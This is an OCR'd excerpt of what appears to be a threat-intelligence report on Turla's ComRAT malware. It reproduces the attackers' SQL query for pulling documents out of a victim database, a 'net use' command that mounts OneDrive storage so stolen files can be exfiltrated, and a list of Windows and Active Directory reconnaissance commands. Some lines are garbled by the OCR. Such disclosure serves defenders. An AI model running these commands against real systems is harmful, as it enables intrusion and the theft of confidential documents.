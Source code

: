 #Insight into attacker’s activityDuring our investigation, we were able to get insights about what Turla operators were doing on the compromised machines.The main use of ComRAT is discovering, stealing and exfiltrating confidential documents. In one case, its operators even deployed a .NET executable to interact with the victim’s central MS SQL Server database containing the organization’s documents. Figure 4 is the redacted SQL command. 


## sqlCommand.CommandText = “select top “ + num2.ToString() + “ filename, img, datalength(img), id from <Redacted> with(nolock) where not img is null and id>” + num4.ToString();sqlCommand.CommandText += “ and datalength(img)<1500000 and (filename like ‘%.doc’ or filename like ‘%.docx’ or filename like ‘[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9]%.pdf’ or (filename like ‘3%.pdf’ and len(filename)>9))”;sqlCommand.CommandText += “ order by id”;


#These documents were then compressed and exfiltrated to a cloud storage provider such as OneDrive or 4shared. Cloud storage is mounted using the net use command as shown in Figure 5.

## tracert -h 10 yahoo.com
net use https://docs.live.net/E65<redacted> <redacted password> /u:<redacted>@aol.co.uk
tracert -h 10 yahoo.com

In addition to document stealing, the operators also run many commands to gather information about the Active Directory groups or users, the network or Microsoft Windows configurations such as the group policies. Figure 6 is a list of commands executed by Turla operators.

## gpresult /z
gpresult /v
gpresult
net view
net view /domain
netstat
netstat -nab
netstat -nao
nslookup 127.0.0.1
ipconfig /all
arp -a
net share
net use
systeminfo
net user
net user administrator
net user /domain
net group
net group /domain
net localgroup
net localgroup
net localgroup Administrators
net group “Domain Computers” /domain
net group “Domain Admins” /domain
net group “Domain Controllers” /domain
dir “%programfiles%”
net group “Exchange Servers” /domain
net accounts
net accounts /domain
net view 127.0.0.1 /all
net session
route printip
config /displaydns

